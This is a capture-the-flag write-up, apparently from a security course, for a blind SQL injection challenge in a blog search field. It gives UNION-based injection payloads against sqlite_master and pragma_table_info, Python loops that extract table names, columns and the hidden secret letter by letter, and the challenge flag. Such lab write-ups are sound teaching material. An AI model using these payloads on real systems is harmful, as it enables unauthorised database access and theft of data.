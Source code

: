 #Challenge `Sometimes we are just temporarily blind` Writeup

- Vulnerability:
  - SQLi attack
- Where:
  - Search blog posts text field
- Impact:
  - allows users to find a hidden secret in the database

## Analyzing the server

This challenge consists in finding a hidden secret somewhere in the database but this time the only feedback we get from the server is the number of articles matching the search query.  
The search query in the search field remains the same as the last challenge `SELECT id, title, content FROM blog_post WHERE title LIKE '%%'%' OR content LIKE '%%'%'` (by inputting `%'`)

## Exploit

Since it's unknown where the secret is, a good starting place is to find which tables exists.
By using the search feedback (number of matching blog posts) it's possible to create a query to find the name of the existing tables letter by letter.
`asdfghjkl' UNION SELECT tbl_name, type, NULL FROM 'sqlite_master' WHERE type='table' AND substr(tbl_name,1,{i}) == '{text}'; --`, the fields `{i}` and `{text}` are used to iterate over the table name.
The `substr` function allows the query to be case sensitive contrary to the `LIKE` operator.  
First start by creating an alphabet containing all the possible characters for a table name and then using the above fields we iterate over the alphabet to see which letters match the table name.  
The script starts by creating a list of first letters:
```python
for letter in alph:
  r = session.get(URL + payload(letter,1))
  n = get_ntables(r)
  if n != "0":
      print("Found " + n + " with: " + letter)
      names.append(letter)
```
and then using this list tries to find the full name:
```python
while len(names) != 0:
    for name in names:
        for letter in alph:
            r = session.get(URL + payload(name + letter,len(name+letter)))
            n = get_matches(r)
            if n != "0":
                names.append(name + letter)
                print("Found " + n + " with: " + name + letter)
        names.remove(name)
```
Once the table name is found, repeat the process for the column name using the `pragma_table_info` table, 
`asdfghjkl' UNION SELECT name, NULL, NULL FROM pragma_table_info('super_s_sof_secrets') WHERE substr(name,1,{i}) == '{text}'; --`.  
Finally, using the table name and the column name find the secret using the query:  
`asdfghjkl' UNION SELECT secret, NULL, NULL FROM 'super_s_sof_secrets' WHERE substr(secret,1,{i}) == '{text}'; --`.

This reveals the secret `SSof{I_am_only_partially_blind_since_I_can_get_your_data_using_boolean_injection}`.  

## Implementation

These code snippets and full implementation can be found [here](sometimes-we-are-just-temporarily-blind.py).
```
